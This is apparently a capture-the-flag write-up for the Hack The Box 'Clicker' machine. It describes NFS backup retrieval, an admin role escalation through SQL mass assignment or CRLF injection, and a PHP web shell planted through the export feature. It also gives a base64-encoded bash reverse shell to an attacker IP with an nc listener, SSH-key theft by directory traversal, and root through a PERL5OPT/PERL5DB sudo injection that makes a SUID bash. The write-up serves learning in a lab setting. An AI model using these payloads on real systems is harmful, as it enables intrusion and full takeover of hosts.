


# Clicker

## Enumeration


```bash
echo "<IP> clicker.htb" |sudo tee -a /etc/hosts
```

```bash
export target="<IP>"
nmap -sC -sV -p- -vv -oN nmap/full $target
```

### Nmap


```rpcbind reveals that nfs is available and supporting older versions.```

### RPC


```Knowing this, mount the share```

### NFS


```bash
mkdir mnt
sudo mount -o nolock $target:/mnt/backups mnt
```


```Move and unzip the contents of the backups and unmount as it's served it's purpose.```

```bash
cp clicker.htb_backups.zip ../
unzip ../clicker.htb_backups.zip
sudo umount $target:/mnt/backups
```

```We now posess the source code which will help in finding any vulnerabilities.```

## Foothold


```We see that role as a URL argument is blacklisted as well as only the clicks and level are session updated. So in the case where we manage to update the role we'd need to refresh the session values by reloging since all the values get updated on authentication:```


```To access `admin.php` we'll need to set our role to admin```


```Theres two ways to achieve that:```
- SQL mass assignment
- CRLF vulnerability


[ABOUT: Mass assignment](https://learn.snyk.io/lesson/mass-assignment/)

[ABOUT: CRLF](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

### sql mass assignment

    role%3d'Admin',clicks=2000

```By URL encoding the `=` we can insert more than one pair of values by seperating them with a comma.```


### CRLF vulnerability 

```By adding %0a to `role` we can bypass the blacklist```


```Now if we relog we should be able to access the admin panel```


### Exports


```As we can manipulate the extension of the exported file, we can change it to a php extension, and it's retrieving the nickname value, so we might try injecting a malicious payload and executing it through the export functionality.```


    <?='$_GET[0]';?>

```This is the shortest php payload, it'll work for our needs, however when referring to the custom exploit we'll use a different one as some of the special symbols collide and are not playing nice```


```Now that we've tested that it's possible, time to get a reverseshell```

### Reverse Shell

```bash
echo "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64
nc -lvnp <PORT>
```

```send the payload:```

```bash
echo <your base64 string> | base64 -d | bash
```


## Escalation to jack user


```bash
find / -type f -perm /u=s 2>dev/null
```





```By running strace on execute_query 1 we can see a glimpse on what's going on behind the scenes.```


```we see that all these scripts are run from /home/jack/query/. Which means each number represents a file within that directory, so what happens when we provide a number out of the provided ones? - It doesn't find anything since nothing's specified. What if we specify a file ourselves? We already know there's an create.sql file within that directory let's try that.```

```bash
./execute_query 5 create.sql
```



```It executes the same file as option 1 would. Let's try directory traversal.```


```Works like a charm, however we need to be precise with the depth we go to. If we can read files we can surely read the id_rsa, since we caw that jack has ssh access within /etc/passwd aswell as we know port 22 is open.```


```We'll copy it to our system and try to login, however if we're keen eyes we can see a minor issue with the file itself, it's formatting is busted. There needs to be 5 "-" on each side for it to be valid. ```

```bash
ssh jack@10.10.11.232 -i id_rsa
```


#### Flag


## Escalation to root

```Check for sudo -l to list all sudo priviledges```


```We can set ENV variables when running sudo, and the script unsets perl libraries which jumps out as weird. Innitially I thought of PATH exploitation but that wouldn't work as the script resets the PATH variable. So I was hung up on perl variables, xml_pp runs on perl, so I did some investigating and found a perl_start up local priv exploit:```

[Exim - 'perl_startup' Local Privilege Escalation](https://www.exploit-db.com/exploits/39702)

```Essentially we're only interested in the payload:```

```perl
cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})
```

```Which essentally sets it to debug mode and runs a command, if we modify it to copy and set a SUID on bash we could get root.```

```bash
mkdir -p /tmp/moon
sudo PERL5OPT=-d PERL5DB='exec "cp /bin/bash /tmp/moon/rootbash && chmod u+s /tmp/moon/rootbash"' /opt/monitor.sh
/tmp/moon/rootbash -p
```

```It's better to make a seperate rootbash rather than change the original bash to not disrupt anything and to make cleanup easy.```


#### Flag


## Personal Input

```The box challenged a variety of pre-existing skills as well as introduced new personal challenges, such as polishing white-box testing skills, I don't often dive into source code, so this was a great experience to practice and do a deep dive into code flow; Experimenting and learning more about SQL mass injection. CRLF was my 1st go to and it worked perfectly, however I researched other possibilities just to calm my curiosity. The fact that SESSION information only updated on relog drove me mad for quite a while since I completely overlooked that fact. Surprisingly Enough priviledge escalation was tough as I had to look into strace more and launch GHydra to help myself better understand what's happening. Finding perl_startup escalation vulnerability took me ages. All in all This was the most challenging box I've done in a while and kept me in a well balanced spot between frustrated and satisfied. A lot of takeaways from this box, can't recommend it enough for others. ```


